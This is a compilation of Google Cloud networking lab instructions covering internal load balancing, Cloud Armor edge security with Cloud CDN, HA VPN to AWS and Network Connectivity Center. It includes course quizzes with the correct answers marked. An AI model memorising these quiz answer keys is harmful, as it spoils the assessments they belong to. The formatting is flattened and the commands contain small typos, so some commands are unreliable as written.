xxxxxxxxxxdefaultService: regions/Region/backendServices/blue-servicename: matcher1routeRules:- matchRules:- prefixMatch: /priority: 0routeAction:weightedBackendServices:- backendService: regions/Region/backendServices/blue-serviceweight: 70- backendService: regions/Region/backendServices/green-serviceweight: 30
Click Done.
Configure the default routing rule
When traffic does not match any of the other routing rules, the load balancer uses the default routing rule. Even though the rule you configured is designed to match all traffic, the default routing rule is required. You will configure the default routing rule to use the blue-service backend.
Click (Default) Route traffic to backend "" for any unmatched hosts.
In the Edit host and path rule panel, for Service, select blue-service, and then click Done.
Configure the frontend
The frontend forwards traffic to the backends.
Click Frontend configuration.
Specify the following, and leave the remaining settings as their defaults:
Property Value (type value or select option as specified) Subnetwork subnet-b IP address Ephemeral (Custom) Custom ephemeral IP address 10.10.30.5 Click Done.
Review and create the load balancer
(Optional) Click Review and finalize. Review the Backend and Frontend.
Click Create. Wait for the load balancer to be created before starting the next task.
Click Check my progress to verify the objective.
Configure the load balancer.
Check my progress
Task 3. Test the load balancer
Verify that the my-ilb IP address forwards most of the traffic to the blue-service running on instance-group-1 in Zone 1.
Access the load balancer
In the Navigation menu, click Compute Engine > VM instances.
For utility-vm, click SSH to launch a terminal and connect.
To verify that the load balancer forwards traffic, run the following command:
xxxxxxxxxxcurl 10.10.30.5
The output should look like this:
xxxxxxxxxx<h1>Internal Load Balancing Lab</h1><h2>Client IP</h2>Your IP address : 10.10.20.50<h2>Hostname</h2>Server Hostname:instance-group-2-1zn8<h2>Server Location</h2>Region and Zone: YOUR_LAB_ZONE
As expected, traffic is forwarded from the load balancer (10.10.30.5) to either the blue-service backend or the green-service backend.
Run the same command a few times:
xxxxxxxxxxcurl 10.10.30.5curl 10.10.30.5curl 10.10.30.5curl 10.10.30.5curl 10.10.30.5curl 10.10.30.5curl 10.10.30.5curl 10.10.30.5curl 10.10.30.5curl 10.10.30.5
Most responses should come from instance-group-1 in Zone 1, which is the blue-service. Fewer responses come from instance-group-2 in Zone 2, which is the green-service. (Recall that you configured the load balancer to route 70% of the traffic to the blue-service.) If you do not see that most responses come from instance-group-1, run the commands again.
Task 4. Review
In this lab, you created two managed instance groups in the Region region. You also created some firewall rules. The firewall rules allow traffic from clients and the health checkers to the managed instance groups. You configured a regional internal Application Load Balancer, using the managed instance groups as backends. Finally, you tested the load balancer to ensure that it works as expected.
Quiz
Where would you configure traffic management for a load balancer?
In the load balancer frontend
In the load descriptor
In the load balancer backend
In the URL map
Correct. The URL map contains rules that define the criteria to use to route incoming traffic to a backend service.
You can use hybrid load balancing to connect these environments:
Google Cloud, other public clouds, and on-premises
Google Cloud, AWS, and on-premises
Google Cloud and on-premises
Google Cloud and AWS
Correct. You can connect any destination that you can reach by using a Google hybrid connectivity product and that can be reached with a valid IP:Port combination.
When you use the internal IP address of the forwarding rule to specify an internal Network Load Balancer next hop, the load balancer can only be:
In the same subnet as the next hop route or a Shared VPC network.
In the same subnet as the next hop route.
In the same VPC network as the next hop route.
In the same VPC network as the next hop route or in a peered VPC network.
Correct. When you use an internal IP address to specify the next hop, the load balancer can be in the same VPC network or a peered VPC network.
Caching and Optimizing Load Balancing
LAB - Defending Edge Cache with Cloud Armor
Overview
Google Cloud Armor edge security policies allow you to restrict access to cached objects on Cloud CDN (Content Delivery Network) and Cloud Storage. Edge security policies are deployed and enforced at the outermost perimeter of Google's network, upstream of where the Cloud CDN cache resides. Reasons to do this include ensuring that your users do not access objects in storage buckets from restricted geographies, or ensuring that your media distribution is filtering on the geographies that you have a license to do so.
In this lab you create a Google Cloud Storage bucket, upload an image to it, bind it to a load balancer, and then enable Cloud CDN and Cloud Armor edge security policies on it.
What you'll learn
In this lab, you learn how to:
Set up a Cloud Storage Bucket with cacheable content
Create an edge security policy to protect the content
Validate that the edge security policy is working as expected
Setup and requirements
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources are made available to you.
This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.
Time to complete the lab—remember, once you start, you cannot pause a lab.
Note: Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.
How to start your lab and sign in to the Google Cloud console
Click the Start Lab button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:
The Open Google Cloud console button
Time remaining
The temporary credentials that you must use for this lab
Other information, if needed, to step through this lab
Click Open Google Cloud console (or right-click and select Open Link in Incognito Window if you are running the Chrome browser).
The lab spins up resources, and then opens another tab that shows the Sign in page.
*Tip:* Arrange the tabs in separate windows, side-by-side.
Note: If you see the Choose an account dialog, click Use Another Account.
If necessary, copy the Username below and paste it into the Sign in dialog.
xxxxxxxxxx"Username"You can also find the Username in the Lab Details pane.
Click Next.
Copy the Password below and paste it into the Welcome dialog.
xxxxxxxxxx"Password"You can also find the Password in the Lab Details pane.
Click Next.
Important: You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.
Note: Using your own Google Cloud account for this lab may incur extra charges.
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Google Cloud console opens in this tab.
Note: To access Google Cloud products and services, click the Navigation menu or type the service or product name in the Search field. 
Before you begin
In Cloud Shell, set your Project ID and create an environment variable for it:
xxxxxxxxxxexport PROJECT_ID=$(gcloud config get-value project)echo $PROJECT_IDgcloud config set project $PROJECT_ID
Task 1. Create a Cloud Storage bucket and upload an object
The Cloud Storage bucket will be the origin source for Cloud CDN.
In the console, go to Navigation menu (
To create a new Cloud Storage bucket, click CREATE.
Set the bucket name as
Bucket NameClick Continue.
For Location type, select
Region, and chooseBucket RegionClick Continue.
The default storage class for your bucket is
Standard. Click Continue.Uncheck
Enforce public access prevention on this bucketcheckbox under Prevent public access.Choose Fine-grained under Access Control.
Click Continue.
Click Create.
That's it — you've just created a Cloud Storage bucket!
Upload an Object to the bucket
Now upload an object into the bucket, which you will use later. By default, Cloud Storage buckets are private. As part of this lab, you will make the object available to the Internet.
Run the following command in Cloud Shell, to download an image to Cloud Shell. A Google image from the Google homepage is used for this lab.
xxxxxxxxxxwget --output-document google.png https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png
Use the
gsutil cpcommand to upload the image from the Cloud Shell to the bucket you created:
xxxxxxxxxxgsutil cp google.png gs://Bucket Name
Remove the downloaded image from Cloud Shell:
xxxxxxxxxxrm google.png
Locate the object you have uploaded to the bucket by navigating to Cloud Storage > Buckets >
Bucket Name.Now, click on the three dots on the right side of the object you uploaded and click Edit access.
Click on Add Entry and set the entity as Public from the drop-down list.
Click Save.

Click Check my progress to verify the objective.
Create a Cloud Storage Bucket and upload an object
Check my progress
Task 2. Create a Load Balancer
Cloud CDN and Cloud Armor are components that can be tied to Google's global Cloud Load Balancing. In this section, you create an HTTP Load balancer.
In the Navigation menu (
Click +CREATE LOAD BALANCER.
Under Type of load balancer, select Application Load Balancer (HTTP/HTTPS) and click NEXT.
Under Public facing or internal, select Public facing (external) and click NEXT.
For Global or single region deployment, select Best for global workloads and click NEXT.
For Load balancer generation, select Global external Application Load Balancer and click NEXT.
Click CONFIGURE button.
Name the load balancer as
edge-cache-lb.
Create frontend configuration
To create the frontend configuration:
Click on Frontend configuration.
For the frontend configuration use HTTP (though HTTPS also works if you have a certificate) and an ephemeral IP address and ensure that you have selected the premium tier network. This is by default.
Click Done.

Create backend configuration
To create the backend configuration:
Click on Backend configuration.
For Backend services & backend buckets, click Create a backend bucket.
Set the Backend bucket name to
lb-backend-bucket.In the next field, select the Cloud Storage bucket created earlier by clicking the Browse button.
Leave all other values at their defaults.
Click Create.
Create host and path rules
To create host and path rules:
Click on Routing rules on the left.
Select simple host and path rule under Mode to send any request to the bucket. This is the default option.
Review and create the HTTP Load Balancer
To review and create the HTTP Load Balancer:
Click on Review and finalize.
Review the Backend services and Frontend.
Click on Create.
Get Load Balancer IP
To get the Load Balancer IP from the console:
Click the load balancer name in the list of load balancers for the project. Note the IPv4 address of the load balancer for the next task. Refer to it as
[LOAD_BALANCER_IP].

Query the Load Balancer
After a couple minutes, query the load balancer for the object you uploaded. You will need the load balancer IP address and the name of the image.
Run the following from CloudShell and replace the LOAD_BALANCER_IP with the IPv4 address of the load balancer:
xxxxxxxxxxcurl -svo /dev/null http://LOAD_BALANCER_IP/google.png
Note: It might take up to 5 minutes to access the HTTP Load Balancer.
Output:
xxxxxxxxxxstudent-cloudshell% curl -svo /dev/null http://34.98.81.123/google.png* Trying 34.98.81.123...* TCP_NODELAY set* Connected to 34.98.81.123 (34.98.81.123) port 80 (#0)> GET /google.png HTTP/1.1> Host: YOUR_IP> User-Agent: curl/7.64.1> Accept: */*>< HTTP/1.1 200 OK< X-GUploader-UploadID: ADPycdtoILI76KVsvBvdVGvSfzaxys1m3zYqCepBrmJxAI48ni24cWCRIdNu-53PX3DS6iycxp6xwFbMpwtcHHZQUQmEBxAgng< Expires: Mon, 13 Dec 2021 22:58:26 GMT< Date: Mon, 13 Dec 2021 21:58:26 GMT< Cache-Control: public, max-age=3600< Last-Modified: Mon, 13 Dec 2021 21:45:57 GMT< ETag: "8f9327db2597fa57d2f42b4a6c5a9855"< x-goog-generation: 1639431957957903< x-goog-metageneration: 2< x-goog-stored-content-encoding: identity< x-goog-stored-content-length: 5969< Content-Type: image/png< x-goog-hash: crc32c=TeiHTA==< x-goog-hash: md5=j5Mn2yWX+lfS9CtKbFqYVQ==< x-goog-storage-class: STANDARD< Accept-Ranges: bytes< Content-Length: 5969< Server: UploadServer
Run a few queries with this command:
xxxxxxxxxxfor i in `seq 1 50`; do curl http://LOAD_BALANCER_IP/google.png; done
Confirm content served by Cloud CDN
Validate that your content is being served from the CDN via CDN or Load Balancing Monitoring by navigating to Network Services > Cloud CDN.

You should be able to get close to a 100% hit ratio.
Click Check my progress to verify the objective.
Create a Load Balancer
Check my progress
Task 3. Delete the object from Cloud Storage bucket
Now that the cache is populated, delete the object from the bucket. This will reinfore that you are applying the policy to the cache and not the backend.
In the Navigation menu (
Bucket Name.Select the object and delete it by clicking the Delete button at the top.
Click Delete at the prompt.
Click Check my progress to verify the objective.
Delete the object from Cloud Storage bucket
Check my progress
Task 4. Create an edge security policy
Cloud Armor policies are substantiated outside of the HTTP Load Balancer. Once the Cloud Armor policy is deployed, you can then associate it with one or more HTTP Load Balancer Backend Service or Bucket resources, referred to as a Target.
In the Navigation menu (
Set the following values, leave all other values at their defaults and click Next Step:
| Property | Value (type value or select option as specified) |
|---|---|
| Name | edge-security-policy |
| Policy type | Edge security policy |
| Default rule action | Deny |
In Apply policy to targets section, click Add Target and set the following values:
| Property | Value |
|---|---|
| Type 1 | Backend bucket (external application load balancer) |
| Backend Bucket target 1 | lb-backend-bucket |
Click Done.
Click Create Policy.
Validate Edge Security Policy
Now that you've created an edge security policy in front of the back-end bucket, validate that it works as expected.
Check the security policy
After a few minutes have passed, you can check that the Cloud Armor policy is running.
From the command line, run the following command, which gives you a 403:
xxxxxxxxxxcurl -svo /dev/null http://LOAD_BALANCER_IP/google.png
A 403 error occurs when you do not have permission to accessing a web page or something on a web server.
Output:
xxxxxxxxxxcurl -svo /dev/null http://34.98.81.123/google.png* Trying 34.98.81.123...* TCP_NODELAY set* Connected to 34.98.81.123 (34.98.81.123) port 80 (#0)> GET /google.png HTTP/1.1> Host: YOUR_IP> User-Agent: curl/7.64.1> Accept: */*>< HTTP/1.1 403 Forbidden< X-GUploader-UploadID: ADPycdtS6FtJOGIsiWYDrAAE8VFeQuNutcvbGoQe2t8EZxsuspVtmCjyiTv_P3CNktroHMOGFXkTCfG-Jj-rUO60ZGPpEbpqcw< Content-Type: application/xml; charset=UTF-8< Content-Length: 111< Date: Mon, 13 Dec 2021 23:09:35 GMT< Expires: Mon, 13 Dec 2021 23:09:35 GMT< Cache-Control: private, max-age=0< Server: UploadServer
Investigate the logs
Next, you check the logs to see the enforced edge security policy.
In the Navigation menu (
Enter the below snippet into the query box and click Run Query:
xxxxxxxxxxresource.type:(http_load_balancer) AND jsonPayload.@type="type.googleapis.com/google.cloud.loadbalancing.type.LoadBalancerLogEntry" AND severity>=WARNING
Note the
403 responseand the enforced security policy.

Click Check my progress to verify the objective.
Create edge security policy for cloud Armor
Check my progress
Remove the security policy
To prove that the object is getting delivered from the CDN cache, remove the Cloud Armor security policy and query the object. The origin object has been removed from Cloud Storage, thus illustrating that the object is getting served from the edge cache.
In the Navigation menu (
Select the
lb-backend-buckettarget and click Remove to remove the target bucket. Confirm Remove.Wait a few minutes, then send another
curlto the resource in the Cloud Storage bucket:
xxxxxxxxxxcurl -svo /dev/null http://LOAD_BALANCER_IP/google.png
You get a 200 response this time. The web page is acting as it is supposed to.
Output:
xxxxxxxxxxstudent-cloudshell% curl -svo /dev/null http://34.98.81.123/google.pngTrying 34.98.81.123...TCP_NODELAY setConnected to 34.98.81.123 (34.98.81.123) port 80 (#0)GET /google.png HTTP/1.1Host: YOUR_IPUser-Agent: curl/7.64.1Accept: */*HTTP/1.1 200 OKX-GUploader-UploadID: ADPycdtI7f49P3MSuZSZ8vl6RwfwmnIDJ59EeSKp7UPvLPawdaiRHXiNWLtseQTxUxceWOvSLvpYmT3pWVkV4qeIP7MDate: Mon, 13 Dec 2021 23:06:46 GMTLast-Modified: Mon, 13 Dec 2021 21:45:57 GMTETag: "8f9327db2597fa57d2f42b4a6c5a9855"x-goog-generation: 1639431957957903x-goog-metageneration: 2x-goog-stored-content-encoding: identityx-goog-stored-content-length: 5969Content-Type: image/pngx-goog-hash: crc32c=TeiHTA==x-goog-hash: md5=j5Mn2yWX+lfS9CtKbFqYVQ==x-goog-storage-class: STANDARDAccept-Ranges: bytesContent-Length: 5969Server: UploadServerAge: 1621Cache-Control: public,max-age=3600{ [775 bytes data]Connection #0 to host 34.98.81.123 left intactClosing connection 0
Try it a couple of times and see if you get a 403 status code.
Congratulations!
You have successfully created a Cloud Storage bucket, uploaded an image to it, bound it to a load balancer, and then enabled Cloud CDN and edge security policies on it.
Quiz
CDN Interconnect provides:
A direct connection between your origin servers and Google's Cloud Load Balancing service.
A private connection between your on-premises network and Google Cloud.
A direct peering connection between third-party content delivery networks (CDNs) and Google's edge network.
A virtual private network (VPN) tunnel between your VPC network and Google's global network.
Correct. CDN Interconnect facilitates direct peering between CDNs and Google's edge, improving content delivery.
When you use the internal IP address of the forwarding rule to specify an internal Network Load Balancer next hop, the load balancer can only be:
In the same VPC network as the next hop route or in a peered VPC network.
In the same VPC network as the next hop route.
In the same subnet as the next hop route.
In the same subnet as the next hop route or a shared VPC network.
This is correct. When using an internal IP address of the forwarding rule, the Network Load Balancer can be located either in the same VPC network as the next hop route or in a VPC network that is peered with it.
Which of the following best practices help optimize load balancing cost?
Ignoring load balancer health checks to avoid additional API calls.
Implementing a caching layer with a content delivery network (CDN).
Selecting the most expensive load balancer type for maximum performance.
Overprovisioning load balancer resources to handle peak traffic loads.
Correct. CDNs can offload traffic from your origin servers, reducing the load on your load balancer and potentially allowing you to use a smaller, less expensive option
Networking in Google Cloud: Hybrid and Multicloud
Connectivity Options
Quiz
Your company is located in a city where Google Cloud does not have a Dedicated Interconnect location, but you need a private connection to your Google Cloud Virtual Private Cloud (VPC). Which Cloud Interconnect option is most suitable for this scenario?
Dedicated Interconnect
Partner Interconnect
Carrier Peering
Network Connectivity Center
This is correct. Partner Interconnect allows you to connect to Google's network through a supported service provider's facilities, even if there isn't a Dedicated Interconnect location in your city. This gives you a private connection to your VPC.
Which Google Cloud Interconnect option requires the customer to provide their own routing equipment and establish a Border Gateway Protocol (BGP) session with Google's edge network?
Dedicated Interconnect
Network Connectivity Center
Partner Interconnect
Cross-Cloud Interconnect
Correct. Dedicated Interconnect requires customers to establish a direct physical connection to Google's network at a colocation facility.
Cloud VPN
LAB - Create Highly Available VPN Connections between Google Cloud and AWS
PTPPF058
This lab is a part of the upcoming Partner Technical Presales Proficiency Framework (PTPPF) Program. This lab is intended for all technical Googlers and Partners. This lab is not intended for public consumption beyond this audience.
Scoring: You must score 80% or higher to pass this PTPPF Challenge lab.
Challenge lab overview
This lab challenges you to perform actions and automation across products. Instead of following step-by-step instructions, you are given a common business scenario and a set of tasks – you then figure out how to complete them on your own, using your skills to come up with a solution that demonstrates your understanding of key concepts. An automated scoring system provides feedback on whether you have completed your tasks correctly. Are you up for the challenge?
Objective
This lab challenges you to demonstrate your ability to create highly available virtual private network (VPN) connections between Google Cloud and Amazon Web Services (AWS) for direct communication between virtual private cloud (VPC) networks across the two cloud platforms.
Setup and requirements
Log into AWS
Click the AWS Console link to log in to the AWS Management Console.
Log into Google Cloud
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources will be made available to you.
This Qwiklabs hands-on lab lets you do the lab activities yourself in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials that you use to sign in and access Google Cloud for the duration of the lab.
What you need
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Time to complete the lab.
Note: If you already have your own personal Google Cloud account or project, do not use it for this lab.
Note: If you are using a Pixelbook, open an Incognito window to run this lab.
How to start your lab and sign in to the Google Cloud Console
Click the Start Lab button. If you need to pay for the lab, a pop-up opens for you to select your payment method. On the left is a panel populated with the temporary credentials that you must use for this lab.
Copy the username, and then click Open Google Console. The lab spins up resources, and then opens another tab that shows the Sign in page.

*Tip:* Open the tabs in separate windows, side-by-side.
If you see the Choose an account page, click Use Another Account.
In the Sign in page, paste the username that you copied from the Connection Details panel. Then copy and paste the password.
*Important:* You must use the credentials from the Connection Details panel. Do not use your Qwiklabs credentials. If you have your own Google Cloud account, do not use it for this lab (avoids incurring charges).
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Cloud Console opens in this tab.
Note: You can view the menu with a list of Google Cloud Products and Services by clicking the Navigation menu at the top-left.

Challenge scenario
Headquartered in Minneapolis, Minnesota, Cymbal currently employs 775,000 people across the world and reported 192 billion US dollars in revenue in 2019.
Cymbal has always been strongly committed to innovation, uncovering meaningful ways to transform industries and deliver better experiences for its customers. Cymbal’s branded businesses span multiple sectors including manufacturing, financial services, media, healthcare, retail, aviation, and education.
Cymbal Group has been rapidly making the transition to a cloud-first operating model. Cymbal Bank, Superstore, and other Cymbal Group assets have all been adopting Google Cloud as part of their technology strategy. Recognizing the need for a multi-cloud architecture, the CIO of Cymbal Group has mandated a standard architecture for all new services, sharing a common network foundation that is based on Google Cloud and AWS.
Your challenge
As a network architect employed at Cymbal Group, you have been asked to create highly available VPN connections between Google Cloud and Amazon Web Services (AWS) for direct communication between VPC networks across the two cloud platforms.
Task 1. Create the highly available VPN gateway and configure Cloud Router on Google Cloud
Create a VPC network, a highly available VPN gateway, and configure the Cloud Router service on Google Cloud.
Create a custom VPC network
cymbal-cloud-vpcwith a single subnetcymbal-cloud-subnetin theus-east1region.xxxxxxxxxxgcloud compute networks create cymbal-cloud-vpc \--subnet-mode custom \--bgp-routing-mode globalxxxxxxxxxxgcloud compute networks subnets create cymbal-cloud-subnet \--network cymbal-cloud-vpc \--region us-east1 \--range 10.1.1.0/24Create the highly available VPN gateway
cymbal-cloud-ha-vpn-gwin the networkcymbal-cloud-vpc.xxxxxxxxxxgcloud compute vpn-gateways create cymbal-cloud-ha-vpn-gw \--network cymbal-cloud-vpc \--region ue-east1Create a Cloud Router service asset named
cymbal-cloud-routerin theus-east1region.xxxxxxxxxx
xxxxxxxxxxCreate the highly available VPN gateway and configure Cloud Router on Google CloudCheck my progress#### Task 2. Create gateways and VPN connections on AWSCreate customer gateways, a target gateway, and VPN connections with dynamic routing.1. Configure the AWS command-line interface (CLI).- Connect to the Google Compute Engine virtual machine (VM) named `lab-setup` via SSH.- Type `aws configure`.- Follow the steps and enter the AWS Access Key ID and AWS Secret Access Key displayed in the lab user information panel.- For the region, select **us-east-1**.2. Create two customer gateways.3. Create a **virtual private gateway** as a target gateway and attach it to to your pre-created VPC network `CymbalAdVpc` on AWS side.4. Create two VPN connections with dynamic routing.Create gateways and VPN connections on AWSCheck my progress#### Task 3. Create VPN tunnels and Cloud Router interfaces on Google CloudUse the information from the AWS VPN connections that you created in the previous tasks to create and configure components on Google Cloud.1. Create an external VPN gateway with four interfaces for the AWS externally-facing IP addresses.2. Create four VPN tunnels.3. Create four interfaces to Cloud Router.4. Add border gateway protocol (BGP) peers.Create VPN tunnels and Cloud Router interfaces on Google CloudCheck my progress#### Task 4. Verify the configurationVerify the router and tunnel configuration.Check the tunnel status using the following code:
GET_TUNNEL_1=$(gcloud compute vpn-tunnels list --format='value'|head -1) && \ gcloud compute vpn-tunnels describe $GET_TUNNEL_1 \ --region us-east1 \ --format='flattened(status,detailedStatus)'
xxxxxxxxxxYou should receive a status of **ESTABLISHED**.Verify the configurationCheck my progress#### Congratulations!You have successfully created highly available VPN connections between Google Cloud and Amazon Web Services.### LAB - Configuring Network Connectivity Center as a Transit Hub#### OverviewNetwork Connectivity Center (NCC) enables connecting different enterprise networks together that are outside of Google Cloud by leveraging Google's network—providing enterprises instant access to planet-scale reach and high reliability. Traffic between non-Google networks is referred to as data transfer traffic, which can occur using existing standard cloud network connectivity resources such as Cloud VPN, Dedicated or Partner Interconnect.In this lab, you will go through the process of setting up NCC as a transit hub to route traffic between two non-Google networks using Google's backbone network.#### ArchitectureNCC consists of hub and spoke resources.**Hub**A hub is a global Google Cloud resource that supports multiple attached spokes. It provides a simple way to connect spokes together to enable data transfer across them. A hub can provide data transfer between different on-premises locations and a Virtual Private Cloud (VPC) network through its attached spokes.**Spoke**A spoke is a Google Cloud network resource connected to a hub. It is part of the hub, and can't be created without creating the hub first. A spoke routes traffic to remote network address blocks and enables the connection of multiple remote networks.Spokes can be of one of the following types:- HA VPN tunnels- VLAN attachments- Router appliance instances that you or select partners deploy within Google CloudThe following network topology is similar to a typical customer deployment having branch offices located in two geographically separate locations. For this lab, you are simulating two VPCs *vpc-a*, and *vpc-b* in `Region 1`, and `Region 2` as the branch offices respectively.The branch offices are connected to a VPC, *vpc-transit*, which is a central hub terminating a pair of HA VPNs. These VPNs are configured in a region closest to the branch offices. In the real world, these VPNs could be replaced using Interconnects.You will configure the NCC hub in the *vpc-transit* network, and the two remote branch offices will be connected using the HA VPN tunnels as spokes.In this lab, you will achieve the following objectives:1. Create a hub VPC called *vpc-transit*.2. Create two remote branch office VPCs namely *vpc-a* and *vpc-b*.3. Create HA VPN from *vpa-a* to *vpc-transit*, and *vpc-b* to *vpc-transit*.4. Create a NCC hub resource and attach the HA VPNs as spokes.5. Test the setup end to end deploying VMs in the remote branch office VPCs.#### Prerequisites- Basic knowledge of Google VPC Networking, and Compute Engine.- It is helpful to have completed the [Networking 101](https://google.qwiklabs.com/catalog_lab/311) and [VPC Networking: Cloud HA-VPN](https://www.qwiklabs.com/focuses/6270?parent=catalog) labs.#### Task 1. Create vpc-transit1. In the Google Cloud Console, in the top-right toolbar, click the **Activate Cloud Shell** button and run the following command to delete the **default** network.
gcloud compute networks delete default
xxxxxxxxxx1. In the Google Cloud Console, from the **Navigation Menu ()**, go to **VPC network**.2. Click **CREATE VPC NETWORK**.3. Enter a Name for the network: **vpc-transit**.4. You do not need to create a subnet for the *vpc-transit* so click **Delete** next to New Subnet.5. Choose the Dynamic routing mode for the VPC network as **Global**.**Note:** Learn more about dynamic routing from the [dynamic routing mode documentation](https://cloud.google.com/vpc/docs/vpc#routing_for_hybrid_networks).1. Click **Create**.Click *Check my progress* to verify the objective.Create vpc-transit networkCheck my progress#### Task 2. Create remote branch office VPCs1. In the Google Cloud Console, from the **Navigation menu**, go to the **VPC network**.2. Click **CREATE VPC NETWORK**.3. Enter a Name for the network as **vpc-a**.4. Choose **Custom** for the Subnet creation mode.5. In the New subnet section, specify the following configuration parameters for a subnet:- Name for the subnet: **vpc-a-sub1-use4**.- Region: **`Region 1`**.- IP address range **10.20.10.0/24**. This is the primary IP range for the subnet.6. Click **Done**.7. Choose the Dynamic routing mode for the VPC network as **Regional**.8. Click **Create**.9. To add the second remote branch office VPC, click **CREATE VPC NETWORK**.10. Enter a Name for the network as **vpc-b**.11. Choose **Custom** for the Subnet creation mode.12. In the New subnet section, specify the following configuration parameters for a subnet:13. Provide a Name for the subnet as **vpc-b-sub1-usw2**.14. Select Region as **`Region 2`**.15. Enter an IP address range **10.20.20.0/24**.16. Click **Done**.17. Choose the Dynamic routing mode for the VPC network as **Regional**.18. Click **Create**.Now you should be able to view all 3 VPCs in the VPC networks console like this:Click *Check my progress* to verify the objective.Create remote branch office VPCs namely vpc-a and vpc-bCheck my progress#### Task 3. Configure HA VPN between the remote branch office VPCs and the transit hub VPC**Note:** In this lab you are simulating the remote branch offices as Google Cloud VPCs, therefore using the steps listed to [Create HA VPN between Google Cloud Networks](https://cloud.google.com/network-connectivity/docs/vpn/how-to/creating-ha-vpn2).For any practical implementation, you may replace the steps listed below with the steps for [Creating an HA VPN gateway to a peer VPN gateway](https://cloud.google.com/network-connectivity/docs/vpn/how-to/creating-ha-vpn) if you are using HA VPNs to connect to your branch offices.In this section you will configure an HA VPN between the remote branch office VPCs (*vpc-a* and *vpc-b*) and the transit hub VPC (*vpc-transit*). HA VPN uses BGP for dynamically exchanging routes between Google Cloud and the peer network. Before configuring the HA VPNs, you need to create Cloud Routers associated with each VPC network.**Note:** Learn more about Cloud Routers [in the Cloud Router overview documentation](https://cloud.google.com/network-connectivity/docs/router/concepts/overview).##### **Step 1: Create cloud routers**To create a new Cloud Router for each VPC, specify the following:1. In the Cloud Console, from the **Navigation menu**, go to **Network Connectivity** and select **Cloud Routers**.2. Click **Create router**.3. Enter name as **cr-vpc-transit-use4-1**.4. Select the network as **vpc-transit**.5. Select the region as **`Region 1`**.6. Enter the **ASN** as **65000**.7. Select **Advertise all subnets visible to the Cloud Router (Default)**.8. Click **Create**.9. Use the steps mentioned above to create additional cloud routers using the following details:| **Cloud Router name** | **VPC Network** | **Region** | **Google ASN** || ----------------------- | --------------- | ---------- | -------------- || *cr-vpc-transit-usw2-1* | vpc-transit | `Region 2` | 65000 || *cr-vpc-a-use4-1* | vpc-a | `Region 1` | 65001 || *cr-vpc-b-usw2-1* | vpc-b | `Region 2` | 65002 |##### **Step 2: Create HA VPN gateways**Create an HA VPN gateway in the *vpc-transit* network for `Region 1` region, using the following steps:1. From the **Navigation menu**, go to **Network Connectivity** and select **VPN**.2. Click **Create VPN connection**.3. Select **High-availability (HA) VPN**.4. Click **Continue**.5. Specify a VPN gateway name as **vpc-transit-gw1-use4**.6. Under the VPC network, select **vpc-transit**.7. Select a Region as **`Region 1`**.8. Click **Create and continue**.**Note:** Before adding VPN tunnels, you need to create additional VPN gateways.1. From the VPN page, select **Cloud VPN Gateways**.2. Click **Create VPN gateway** and enter the following details to create the additional VPN gateways:| **VPN gateway name** | **VPC Network** | **Region** || ---------------------- | --------------- | ---------- || *vpc-transit-gw1-usw2* | vpc-transit | `Region 2` || *vpc-a-gw1-use4* | vpc-a | `Region 1` || *vpc-b-gw1-usw2* | vpc-b | `Region 2` |Click *Check my progress* to verify the objective.Create cloud routers and HA VPN gatewaysCheck my progress##### **Step 3: Create a pair of VPN tunnels between vpc-transit to vpc-a**###### Add VPN tunnels from vpc-transit to vpc-aCreate a pair of VPN tunnels using the following steps:1. From the VPN page, click on **Cloud VPN Gateways** and select **vpc-transit-gw1-use4**.2. Click to **Add VPN tunnel**.3. For the Peer VPN Gateway, select **Google Cloud VPN 